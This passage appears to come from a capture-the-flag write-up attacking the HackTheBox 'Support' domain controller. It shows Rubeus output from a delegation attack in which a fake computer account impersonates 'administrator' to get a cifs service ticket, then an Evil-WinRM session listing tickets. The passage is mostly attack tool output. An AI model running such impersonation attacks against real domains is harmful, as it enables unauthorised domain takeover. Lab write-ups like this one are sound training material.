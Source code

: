          VC5IVEKiGjAYoAMCAQqhETAPGw1hZG1pbmlzdHJhdG9yowcDBQBAoQAApREYDzIwMjIwNTI3MTkzODE3
          WqYRGA8yMDIyMDUyODA1MzgxN1qnERgPMjAyMjA2MDMxOTM4MTdaqA0bC1NVUFBPUlQuSFRCqR4wHKAD
          AgEBoRUwExsRMHhkZkZha2VDb21wdXRlciQ=
    
    [*] Impersonating user 'administrator' to target SPN 'cifs/dc.support.htb'
    [*] Using domain controller: dc.support.htb (fe80::4995:178:63d7:93c1%6)
    [*] Building S4U2proxy request for service: 'cifs/dc.support.htb'
    [*] Sending S4U2proxy request
    [+] S4U2proxy success!
    [*] base64(ticket.kirbi) for SPN 'cifs/dc.support.htb':
    
          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
    [+] Ticket successfully imported!
    

### Use Ticket

#### Fails

In theory, I should be able to use this ticket right now. `Rubeus` shows the
ticket in this session:

    
    
    *Evil-WinRM* PS C:\programdata> .\Rubeus.exe klist
    ...[snip]...
    Action: List Kerberos Tickets (Current User)
    